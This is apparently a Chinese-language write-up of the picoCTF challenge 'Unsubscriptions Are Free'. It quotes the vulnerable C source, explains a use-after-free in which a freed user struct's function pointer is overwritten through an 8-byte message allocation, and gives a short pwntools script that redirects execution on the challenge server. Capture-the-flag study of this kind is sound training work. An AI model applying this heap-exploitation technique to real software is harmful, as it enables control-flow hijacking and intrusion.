 # Unsubscriptions Are Free 10
>Check out my new video-game and spaghetti-eating streaming channel on Twixer! program and get a flag. vuln.c  
nc mercury.picoctf.net 6312

# Vuln
在cmd结构体中定义了user的首地址的值是要执行的函数指针，首地址+4是指向username地址的指针。
```cpp
typedef struct {
	uintptr_t (*whatToDo)();
	char *username;
} cmd;

void doProcess(cmd* obj) {
	(*obj->whatToDo)();
}

cmd *user;
```
注销账户时会将user free掉，但是没将被free的指针置null
```cpp
void i(){
	char response;
  	puts("You're leaving already(Y/N)?");
	scanf(" %c", &response);
	if(toupper(response)=='Y'){
		puts("Bye!");
		free(user);
	}else{
		puts("Ok. Get premium membership please!");
	}
}
```
leaveMessage会使用堆上可分配的最前8个字节
```cpp
void leaveMessage(){
	puts("I only read premium member messages but you can ");
	puts("try anyways:");
	char* msg = (char*)malloc(8);
	read(0, msg, 8);
}
```
且leaveMessage不会改写user的函数指针whatToDo，会不检测user是否未被初始化/释放就会尝试直接执行user的whatToDo  
注释提示了这点易受攻击
```cpp
int main(){
	setbuf(stdout, NULL);
	user = (cmd *)malloc(sizeof(user));
	while(1){
		printMenu();
		processInput();
		//if(user){
			doProcess(user);
		//}
	}
	return 0;
}
```

# PWN!
注销用户释放user -> 用leaveMessage向原先属于(user->whatToDo)的地址写入目标函数hahaexploitgobrrr()的地址 -> 程序执行hahaexploitgobrrr()
```python
from pwn import *
p=remote('mercury.picoctf.net',6312)

p.sendline('i')
p.sendline('y')
p.sendline('l')
p.recvuntil("try anyways:")
p.sendline(p32(0x80487d6))
p.interactive()
```